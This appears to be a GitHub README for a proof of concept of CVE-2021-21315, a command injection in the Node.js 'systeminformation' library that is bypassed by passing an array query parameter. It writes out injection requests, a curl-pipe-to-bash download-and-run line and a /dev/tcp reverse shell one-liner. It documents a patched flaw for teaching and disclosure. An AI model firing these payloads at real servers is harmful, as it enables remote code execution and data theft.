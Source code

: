 # CVE-2021-21315-systeminformation
This is Proof of Concept for [CVE-2021-21315](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21315) which affects The System Information Library for Node.JS (npm package "systeminformation"). [npmjs.com/systeminformation](https://www.npmjs.com/package/systeminformation)

"be sure to check or sanitize service parameters that are passed to si.inetLatency(), si.inetChecksite(), si.services(), si.processLoad() ... do only allow strings, reject any arrays. String sanitation works as expected. "

Because it's not well explained vulnerability (in my opinion), i decided to code small app basing on vulnerable version of systeminformation.
The PoC contains:
1) Test app made in Node.js, using express and vulnerable systeminformation
2) Simple testing payload to create .txt file on affected machine

Steps to reproduce:
1) Run application on Linux server environment
2) Make GET request to site.com/api/getServices?name=nginx (nginx is just example)
![obraz](https://user-images.githubusercontent.com/72838191/109575455-223c8d00-7af2-11eb-92fa-f242d0e74947.png)
3) Now try to send request like this: yoursite.com/api/getServices?name=$(echo -e 'Sekurak' > pwn.txt)
![obraz](https://user-images.githubusercontent.com/72838191/109575807-d3dbbe00-7af2-11eb-8c83-5129e5cdb762.png)

This will fail, because of string sanitization:
![obraz](https://user-images.githubusercontent.com/72838191/109575891-fcfc4e80-7af2-11eb-9b9d-86a5cae803f6.png)

As said in CVE details "sanitization works as expected, reject any arrays [...]"

4) Now try to send request: yoursite.com/api/getServices?name[]=$(echo -e 'Sekurak' > pwn.txt)
![obraz](https://user-images.githubusercontent.com/72838191/109576285-cbd04e00-7af3-11eb-8ac3-2432e23721e6.png)
This time, if you take a look at "name" value, it was not sanitized - success ! Let's see if command was executed

![obraz](https://user-images.githubusercontent.com/72838191/109576497-21a4f600-7af4-11eb-85a1-3610c25edbee.png)

Success! Our command got executed. 
Of course no one cares about "pwn.txt", but potential attacker can:
1) Upload internal files, like index.js (core of our application, with potential api keys, database connection string and others) or other
2) Download and execute scripts - curl -s http://server/path/script.sh | bash /dev/stdin arg1 arg2
3) Reverse shell - bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
4) Kill processes (you can kill our test node application aswell)
5) Even more evil things....

"Command injection" sounds innocent, but it may have huge impact if certain conditions are meet

Problem was fixed in version 5.3.1 of "systeminformation"
Creditis to https://www.huntr.dev/users/EffectRenan (He found vulnerability, however in my opinion, his "Poc" did not show real world impact)

# Disclaimer
This project can only be used for educational purposes. Using this software against target systems without prior permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
